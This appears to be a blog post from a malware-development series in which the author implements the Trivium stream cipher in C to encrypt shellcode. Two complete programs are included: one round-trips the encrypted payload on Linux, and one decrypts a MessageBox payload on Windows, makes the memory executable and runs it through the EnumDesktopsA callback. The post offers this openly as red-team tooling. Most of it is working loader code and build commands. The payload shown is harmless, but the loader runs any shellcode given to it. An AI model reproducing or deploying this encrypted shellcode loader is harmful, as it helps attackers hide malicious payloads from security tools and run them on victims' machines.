






﷽

Hello, cybersecurity enthusiasts and white hackers!        

{:class="img-responsive"}    

In [part 46](/malware/2026/10/28/malware-cryptography-46.html), I used a small neural model to distinguish reduced-round Speck outputs. In this post I return to payload encryption/decryption research and implement Trivium, a synchronous stream cipher, in C. The payload is the usual x64 `Meow-meow!` MessageBox shellcode.     

### Trivium

Trivium is a lightweight synchronous stream cipher designed by Christophe De Cannière and Bart Preneel.     

Trivium keeps a `288-bit` state split across three shift registers of `93`, `84` and `111` bits. Its key and initialization vector are each `80` bits. Initialization clocks the state `1152` times before the cipher produces keystream. The original [Trivium specification](https://cr.yp.to/streamciphers/trivium/desc.pdf) describes the state update and the eSTREAM byte ordering used here.    

For each output bit, the cipher reads taps from the three registers, XORs them to produce one keystream bit, then updates one bit in each register. The state update uses XOR and AND operations. In the C implementation, `state[0]` corresponds to the first indexed state bit used by the equations. The bytes of the key and IV are loaded in reverse order to match the eSTREAM test-vector convention.    

A stream cipher combines each plaintext byte with a keystream byte using XOR:    

$$
C_i = P_i \oplus Z_i,
$$

where $$P_i$$ is a plaintext byte, $$Z_i$$ is the corresponding keystream byte and $$C_i$$ is the ciphertext byte. Decryption applies the same operation again:

$$
P_i = C_i \oplus Z_i.
$$

Trivium processes any byte length directly, so this example needs no block padding or unpadding. The same key and IV must generate the same keystream for encryption and decryption.    

### practical example

First, `trivium_clock()` calculates the output bit and the three feedback bits. The following taps use zero-based C indexes for the specification’s state bits $$s_{66}, s_{93}, s_{162}, s_{177}, s_{243}, s_{288}$$:

```c
uint8_t t1 = state[65] ^ state[92];
uint8_t t2 = state[161] ^ state[176];
uint8_t t3 = state[242] ^ state[287];
uint8_t output = t1 ^ t2 ^ t3;

t1 ^= (state[90] & state[91]) ^ state[170];
t2 ^= (state[174] & state[175]) ^ state[263];
t3 ^= (state[285] & state[286]) ^ state[68];
```

The feedback values shift into positions `0`, `93` and `177`, the first position of each register. The loops shift the remaining bits toward the end of each register.    

`trivium_crypt()` initializes the state from the key and IV, clocks it for `4 × 288 = 1152` rounds without using those bits, then collects eight output bits for each byte and XORs them with the input. A fresh state is initialized each time the function is called. The same routine therefore encrypts and decrypts the data.    

Before using the payload, `check_test_vector()` checks the first 16 keystream bytes against eSTREAM Set 1, vector 0. The test uses key `80000000000000000000` and an all-zero IV. The expected bytes are `38eb86ff730d7a9caf8df13a4420540d`.    

The Linux program (`hack.c`) encrypts the complete payload, prints every ciphertext byte in hexadecimal, then decrypts it and compares all bytes with the original. It does not execute the Windows payload, just checking corectness:     

```c
/*
 * hack.c - Trivium payload encryption and decryption
 * author: @cocomelonc
 */

#include <stdint.h>
#include <stdio.h>
#include <string.h>

#define STATE_BITS 288
#define KEY_BYTES 10
#define IV_BYTES 10

static const uint8_t payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

static uint8_t trivium_clock(uint8_t state[STATE_BITS]) {
  uint8_t t1 = state[65] ^ state[92];
  uint8_t t2 = state[161] ^ state[176];
  uint8_t t3 = state[242] ^ state[287];
  uint8_t output = t1 ^ t2 ^ t3;

  t1 ^= (state[90] & state[91]) ^ state[170];
  t2 ^= (state[174] & state[175]) ^ state[263];
  t3 ^= (state[285] & state[286]) ^ state[68];

  for (int i = 92; i > 0; i--) state[i] = state[i - 1];
  state[0] = t3;

  for (int i = 176; i > 93; i--) state[i] = state[i - 1];
  state[93] = t1;

  for (int i = 287; i > 177; i--) state[i] = state[i - 1];
  state[177] = t2;

  return output;
}

static void trivium_crypt(uint8_t *data, size_t length,
  const uint8_t key[KEY_BYTES],
  const uint8_t iv[IV_BYTES]) {
  uint8_t state[STATE_BITS] = {0};

  for (int i = 0; i < 80; i++) {
    state[i] = (key[9 - i / 8] >> (7 - i % 8)) & 1;
    state[i + 93] = (iv[9 - i / 8] >> (7 - i % 8)) & 1;
  }
  state[285] = 1;
  state[286] = 1;
  state[287] = 1;

  for (int i = 0; i < 4 * STATE_BITS; i++) trivium_clock(state);

  for (size_t i = 0; i < length; i++) {
    uint8_t stream_byte = 0;
    for (int bit = 0; bit < 8; bit++)
      stream_byte |= trivium_clock(state) << bit;
    data[i] ^= stream_byte;
  }
}

static int check_test_vector(void) {
  const uint8_t key[KEY_BYTES] = {0x80};
  const uint8_t iv[IV_BYTES] = {0};
  const uint8_t expected[16] = {
    0x38, 0xeb, 0x86, 0xff, 0x73, 0x0d, 0x7a, 0x9c,
    0xaf, 0x8d, 0xf1, 0x3a, 0x44, 0x20, 0x54, 0x0d
  };
  uint8_t output[sizeof(expected)] = {0};

  trivium_crypt(output, sizeof(output), key, iv);
  return memcmp(output, expected, sizeof(expected)) == 0;
}

static void print_hex(const char *label, const uint8_t *data, size_t length) {
  printf("%s", label);
  for (size_t i = 0; i < length; i++) {
    printf("%02x", data[i]);
    if ((i + 1) % 16 == 0 || i + 1 == length) printf("\n");
    else printf(" ");
  }
}

int main(void) {
  static const uint8_t key[KEY_BYTES] = {
    0x10, 0x32, 0x54, 0x76, 0x98, 0xba, 0xdc, 0xfe, 0x01, 0x23
  };
  static const uint8_t iv[IV_BYTES] = {
    0xa0, 0x91, 0x82, 0x73, 0x64, 0x55, 0x46, 0x37, 0x28, 0x19
  };

  if (!check_test_vector()) {
    fprintf(stderr, "Trivium test vector failed\n");
    return 1;
  }
  puts("Trivium eSTREAM test vector: OK");

  const size_t payload_length = sizeof(payload) - 1;
  uint8_t encrypted[sizeof(payload) - 1];
  uint8_t decrypted[sizeof(payload) - 1];

  memcpy(encrypted, payload, payload_length);
  trivium_crypt(encrypted, payload_length, key, iv);
  print_hex("encrypted payload: ", encrypted, payload_length);

  memcpy(decrypted, encrypted, payload_length);
  trivium_crypt(decrypted, payload_length, key, iv);
  if (memcmp(decrypted, payload, payload_length) != 0) {
    fprintf(stderr, "payload decryption failed\n");
    return 1;
  }
  print_hex("decrypted payload: ", decrypted, payload_length);
  printf("payload decryption: OK (%zu bytes)\n", payload_length);

  puts("linux demo checks encryption and decryption. meow =^..^=!");

  return 0;
}
```

### demo 1

Compile first:      

```bash
gcc -std=c11 -O2 -Wall -Wextra -Werror hack.c -o hack
```

{:class="img-responsive"}    

and run the Linux example:     

```bash
./hack
```

{:class="img-responsive"}    

{:class="img-responsive"}    

As you can see, the program prints the full ciphertext, with `16` bytes per line, then confirms that decryption restored all `313` payload bytes.     

### practical example 2

The Windows example is a separate program, `hack2.c`. It repeats the same encryption and decryption, copies the restored payload into writable memory, changes the allocation to execute/read, and calls it through `EnumDesktopsA`.      

So, full source code looks like this `hack2.c`:     

```c
/*
 * hack2.c - Trivium payload encryption and decryption (Windows demo)
 * author: @cocomelonc
 */

#include <stdint.h>
#include <stdio.h>
#include <string.h>

#include <windows.h>

#define STATE_BITS 288
#define KEY_BYTES 10
#define IV_BYTES 10

static const uint8_t payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

static uint8_t trivium_clock(uint8_t state[STATE_BITS]) {
  uint8_t t1 = state[65] ^ state[92];
  uint8_t t2 = state[161] ^ state[176];
  uint8_t t3 = state[242] ^ state[287];
  uint8_t output = t1 ^ t2 ^ t3;

  t1 ^= (state[90] & state[91]) ^ state[170];
  t2 ^= (state[174] & state[175]) ^ state[263];
  t3 ^= (state[285] & state[286]) ^ state[68];

  for (int i = 92; i > 0; i--) state[i] = state[i - 1];
  state[0] = t3;

  for (int i = 176; i > 93; i--) state[i] = state[i - 1];
  state[93] = t1;

  for (int i = 287; i > 177; i--) state[i] = state[i - 1];
  state[177] = t2;

  return output;
}

static void trivium_crypt(uint8_t *data, size_t length,
  const uint8_t key[KEY_BYTES],
  const uint8_t iv[IV_BYTES]) {
  uint8_t state[STATE_BITS] = {0};

  for (int i = 0; i < 80; i++) {
    state[i] = (key[9 - i / 8] >> (7 - i % 8)) & 1;
    state[i + 93] = (iv[9 - i / 8] >> (7 - i % 8)) & 1;
  }
  state[285] = 1;
  state[286] = 1;
  state[287] = 1;

  for (int i = 0; i < 4 * STATE_BITS; i++) trivium_clock(state);

  for (size_t i = 0; i < length; i++) {
    uint8_t stream_byte = 0;
    for (int bit = 0; bit < 8; bit++)
      stream_byte |= trivium_clock(state) << bit;
    data[i] ^= stream_byte;
  }
}

static int check_test_vector(void) {
  const uint8_t key[KEY_BYTES] = {0x80};
  const uint8_t iv[IV_BYTES] = {0};
  const uint8_t expected[16] = {
    0x38, 0xeb, 0x86, 0xff, 0x73, 0x0d, 0x7a, 0x9c,
    0xaf, 0x8d, 0xf1, 0x3a, 0x44, 0x20, 0x54, 0x0d
  };
  uint8_t output[sizeof(expected)] = {0};

  trivium_crypt(output, sizeof(output), key, iv);
  return memcmp(output, expected, sizeof(expected)) == 0;
}

static void print_hex(const char *label, const uint8_t *data, size_t length) {
  printf("%s", label);
  for (size_t i = 0; i < length; i++) {
    printf("%02x", data[i]);
    if ((i + 1) % 16 == 0 || i + 1 == length) printf("\n");
    else printf(" ");
  }
}

int main(void) {
  static const uint8_t key[KEY_BYTES] = {
    0x10, 0x32, 0x54, 0x76, 0x98, 0xba, 0xdc, 0xfe, 0x01, 0x23
  };
  static const uint8_t iv[IV_BYTES] = {
    0xa0, 0x91, 0x82, 0x73, 0x64, 0x55, 0x46, 0x37, 0x28, 0x19
  };

  if (!check_test_vector()) {
    fprintf(stderr, "Trivium test vector failed\n");
    return 1;
  }
  puts("Trivium eSTREAM test vector: OK");

  const size_t payload_length = sizeof(payload) - 1;
  uint8_t encrypted[sizeof(payload) - 1];
  uint8_t decrypted[sizeof(payload) - 1];

  memcpy(encrypted, payload, payload_length);
  trivium_crypt(encrypted, payload_length, key, iv);
  memcpy(decrypted, encrypted, payload_length);
  trivium_crypt(decrypted, payload_length, key, iv);
  if (memcmp(decrypted, payload, payload_length) != 0) {
    fprintf(stderr, "payload decryption failed\n");
    return 1;
  }
  print_hex("decrypted payload: ", decrypted, payload_length);
  printf("payload decryption: OK (%zu bytes)\n", payload_length);

  void *memory = VirtualAlloc(NULL, payload_length,
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  if (memory == NULL) {
    fprintf(stderr, "VirtualAlloc failed\n");
    return 1;
  }
  memcpy(memory, decrypted, payload_length);

  DWORD old_protection;
  if (!VirtualProtect(memory, payload_length, PAGE_EXECUTE_READ,
    &old_protection)) {
    fprintf(stderr, "VirtualProtect failed\n");
    VirtualFree(memory, 0, MEM_RELEASE);
    return 1;
  }
  FlushInstructionCache(GetCurrentProcess(), memory, payload_length);

  puts("running Meow-meow payload");
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)memory, 0);
  VirtualFree(memory, 0, MEM_RELEASE);

  return 0;
}
```

### demo 2

Build the x64 Windows executable with MinGW-w64:      

```bash
x86_64-w64-mingw32-gcc -std=c11 -O2 -Wall -Wextra -Werror hack2.c -o hack2.exe -mconsole -s -ffunction-sections -fdata-sections -luser32
```

{:class="img-responsive"}    

Then, run `hack2.exe` on my Windows 10 x64 VM. After the test vector and payload round-trip checks, the `Meow-meow!` MessageBox appears.    

{:class="img-responsive"}    

As you can see, everything works perfectly, as expected! Meow =^..^=!    

So, the Linux demo prints and verifies the complete Trivium ciphertext round-trip; the separate Windows demo restores and runs the `Meow-meow!` MessageBox payload. The implementation also checks its keystream against an eSTREAM test vector.

### conclusion

Trivium's state update uses only three AND terms per clock, a sparse nonlinear structure that made it interesting for homomorphic evaluation, where multiplication is costly. Researchers have studied using Trivium to compress homomorphic ciphertexts by generating its keystream while the key is encrypted ([paper](https://www.iacr.org/archive/fse2016/97830297/97830297.pdf)).

I hope this post spreads awareness to the blue teamers of this interesting encrypting technique, and adds a weapon to the red teamers arsenal.     

[Trivium](https://link.springer.com/chapter/10.1007/11836810_13)          
[Malware and cryptography 1](/malware/2023/08/13/malware-cryptography-1.html)    
[Malware development tricks. Run shellcode via EnumDesktopsA. C++ example.](/tutorial/2022/06/27/malware-injection-20.html)    
[Malware development trick 39: Run payload via EnumDesktopsA. Simple Nim example](/malware/2024/06/12/malware-trick-39.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2026-11-27-malware-cryptography-47)    

> This is a practical case for educational purposes only.

Thanks for your time, happy hacking and good bye!     
*PS. All drawings and screenshots are mine*
